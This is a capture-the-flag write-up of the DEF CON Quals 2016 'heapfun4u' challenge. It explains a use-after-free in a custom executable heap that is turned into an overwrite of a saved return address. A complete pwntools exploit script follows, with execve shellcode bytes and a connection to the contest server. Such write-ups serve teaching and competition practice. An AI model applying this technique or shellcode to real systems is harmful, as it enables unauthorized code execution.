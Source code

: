 ```yaml
---
title:      Defcon Quals 2016 - Heapfun4u 
author:     giosch + frydrichas + marcof
date:       2016-05-31 12:00:00
summary:    custom heap, use-after-free, return-to-shellcode 
categories: DefconQuals2016
tags:
 - Defcon Quals
 - heapfun4u
 - Exploitable
 - heap
 - shellcode
 - after-free
 - 2016
---
```


This challenge is a memory manager that implements a custom "heap", allocated using mmap, with the permissions bitmap set to `rwx`.




We have a main menu in which we can perform the following operations:

* `[A]llocate Buffer`: "malloc" of an arbitrary size.
* `[F]ree Buffer`: "free" the chunk we select. Also list all the chunks and the respective addresses.
* `[W]rite Buffer`: let us write in the data part of the specified chunk.
* `[N]ice guy`:  print an address of a variable of the stack.
* `[E]xit`: quit the program.

All chunks' pointers are saved in a global array (so there is a limit to their number, but the check on that is well made), but when you free a chunk, the pointer is not deleted from the array, so we can still write on it.

Inspecting the memory with qira, we saw that when we free a chunk with another allocate chunk after that, a pointer is saved at the end of the freed area. That address point to what we think is the "top chunk size", so where the next "malloc" will allocate the next chunk.

We tried to edit it writing on a freed chunk, and we managed to change the allocation point of the next chunk inside another chunk previously declared (inside that chunk data we put a "valid" top chunk size).

So we have something like an arbitrary write, an executable "heap" and a stack address (and no canary to worry about). Out first thought is to overwrite the saved return address of the main on the stack, forcing the program to jump on a shellcode on the executable heap.

At first we tried just writing stuff on the stack, but it didn't work. Then marcof noticed that maybe not only the top chunk size pointer that we can overwrite need to point to a valid top chunk size, but after the malloc, the nex top chunk size should maybe be on a previous memory area with all zeroes.
With qira we found the addresses on the stack of a valid top chunk size and a length for the malloc that allowed us to make the chunk stop on an area with zeroes.That suddenly worked, so we proceded to write the exploit in python using the pwntools.




{% highlight Python%} 
#!/usr/bin/python

from pwn import *

r = remote("heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me",3957)

#r  = remote("localhost",4000)

def allocate(size):
    r.sendline("A")
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")



def free(index):
    r.sendline("F")
    r.recvuntil("Index: ")
    r.sendline(str(index))
    r.recvuntil("| ")

def write(index, what):
    r.sendline("W")
    r.recvuntil("Write where: ")
    r.sendline(str(index))
    r.recvuntil("Write what: ")
    r.sendline(what)
    r.recvuntil("| ")

def nice():
    r.sendline("N")
    r.recvuntil("Here you go: ")
    leak = r.recvuntil("[A]")
    leak = leak[:-4]
    r.recvuntil("| ")
    return int(leak,16)

def esci():
        r.sendline("E")

def setAddress(addr):
    write(1,p64(addr))

def allocate_(size,payload):
    r.sendline("A"+payload)
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")

   

allocate(16)
allocate(100)
allocate(100)
free(1)
stack = nice()
print "Stack leak -> " + hex(nice())
payload = p64(nice())+"\x00"*7
write(1,payload)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
write(3,shellcode)

context.log_level = 'DEBUG'
setAddress(nice()+28)
allocate_(384,"A"*7+p64(0x190)) #sarebbe 180 ma abbondo

r.sendline("W")
r.recvuntil("3) ");
heap_addr = r.recvuntil("4) ");
heap_addr = heap_addr[:-11];
print heap_addr
r.recvuntil("Write where: ")
r.sendline("4")
r.recvuntil("Write what: ")
r.sendline("A"*280+p64(int(heap_addr,16))+"C"*95)
r.recvuntil("| ")
esci()
r.interactive()

{% endhighlight %}

~ giosch

